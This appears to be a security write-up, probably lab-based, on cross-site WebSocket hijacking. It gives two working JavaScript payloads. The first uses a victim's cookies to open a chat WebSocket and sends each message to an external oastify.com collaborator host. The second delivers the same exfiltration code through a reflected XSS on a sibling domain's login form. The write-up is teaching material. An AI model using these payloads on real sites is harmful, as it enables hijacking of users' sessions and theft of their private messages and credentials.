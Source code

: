 ### *Cross-site WebSocket hijacking (CSWH)*
This vulnerable website has a live chat feature that uses WebSockets, which relies on a cookie with the following values: 
```
[
    {
        "domain": "sub.vulnerable-website.com",
        "name": "session",
        "value": "VjAB8RjXPABXbBqi4Cxf2UgKnKzBb0mI",
        "path": "/",
        "secure": true,
        "session": false,
        "sameSite":"none"
        "expirationDate": 1702080719,
        "httpOnly": true,
        "hostOnly": true,
        "firstPartyDomain": "vulnerable-website.com",
    }
]
```

An attacker can craft a script that establishes a WebSocket connection to a vulnerable website from a cross-origin context. They might then trick a victim into running this script by embedding it in a malicious website or a link. When the victim visits this malicious page while logged into the vulnerable site, the script opens a WebSocket connection to the target chat application using the victim's session cookies.

The key point here is that the WebSocket protocol, in its initial handshake request, automatically includes any cookies associated with its domain. If these cookies lack appropriate `SameSite` attributes (or if they are explicitly set to `"SameSite": "None"`), they can be sent in cross-site requests, making them vulnerable to CSRF attacks.
```
<script>
	document.addEventListener("DOMContentLoaded", function() {
		let ws = new WebSocket("wss://vulnerable-website.com/chat");

		ws.onopen = function() {
			console.log("WebSocket connection established");
			ws.send("READY");
		};

		ws.onmessage = function(event) {
			fetch('https://pqjzmw3hry0nyikk2fxos0mkyb46sv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
		};

		ws.onerror = function(error) {
			// Handle any errors that occur
			console.log("WebSocket error: " + error.message);
		};

		ws.onclose = function(event) {
			// WebSocket connection is closed
			console.log("WebSocket connection closed: " + event.code);
		};
	});
</script>
```

Once the WebSocket connection is established, the script sends a command ("READY") to the server. The server responds with chat messages, which are then processed by the attacker’s script. For each received message, the script can make an HTTP request to an external server, such as the Burp Collaborator client. This request can include the contents of the chat message, effectively ex-filtrating data from the victim’s session to the attacker.
### *CSWH via sibling domain with XSS vulnerability*
`vulnerable-website.com` authenticates WebSockets via cookies with the `SameSite=Strict` setting. All WebSocket messages are sent in clear text to the user after authenticating with this cookie. 

After thoroughly auditing `vulnerable-website.com`, I stumbled across a .js file that contained a link to a sibling domain. This sibling domain (`cms-vulnerable-website.com`) contained a login form which was vulnerable to XSS, as it reflected the `username` input on a failed login. 

I crafted an XSS payload which contained a TLD redirect using `document.location` to submit the form with the XSS in the `username` query parameter. This XSS allowed me to embed a WebSocket connection from the sibling domain. This is done on an exploit server and sent to the victim:
```
<script>
const baseUrl = "https://cms-vulnerable-website.com/login?";
const xss = "document.addEventListener('DOMContentLoaded',function(){let e=new WebSocket('wss://vulnerable-website.com/chat');e.onopen=function(){console.log('WebSocket connection established'),e.send('READY')},e.onmessage=function(e){fetch('https://aaomx4mlr72vimknz5jmzqha218swh.oastify.com',{method:'POST',mode:'no-cors',body:e.data})},e.onerror=function(e){console.log('WebSocket error: '+e.message)},e.onclose=function(e){console.log('WebSocket connection closed: '+e.code)}})"
const queryParams = "username=admin<scr"+"ipt>" + encodeURIComponent(xss) + "</scr"+"ipt>&password=kdfjg";

const url = baseUrl + queryParams
document.location = url;
</script>
```

The victim is directed to the login page with the XSS and opens the WebSocket connection. Because `vulnerable-website.com` is using the `Access-Control-Allow-Origin: cms-vulnerable-website.com` header, then we can bypass the `SameSite=Strict` cookie settings for authenticating the WebSocket connection as the user.

This means we can open a WebSocket connection directly on the sibling domain via the XSS vulnerability, and transmit the data received to a Burp Collaborator client or DNS server. This allowed me to see chat logs of the victim, and extract the victim's log in credentials from a private message.
### *Resources*
- https://javascript.info/websocket#:~:text=To%20open%20a%20websocket%20connection,It's%20like%20HTTPS%20for%20websockets
- https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking
- https://book.hacktricks.xyz/pentesting-web/websocket-attacks
### *Tools*
- [enumeration](https://github.com/PalindromeLabs/STEWS) Discover, fingerprint and search for known vulnerabilities in WebSockets automatically.
- [WSSiP](https://github.com/nccgroup/wssip) Provides a user interface to capture, intercept, send custom messages and view all WebSocket and Socket.IO communications between the client and server.
- [wsrepl](https://github.com/doyensec/wsrepl)
- [websocketking](https://websocketking.com/) Communicate with other websites using WebSockets.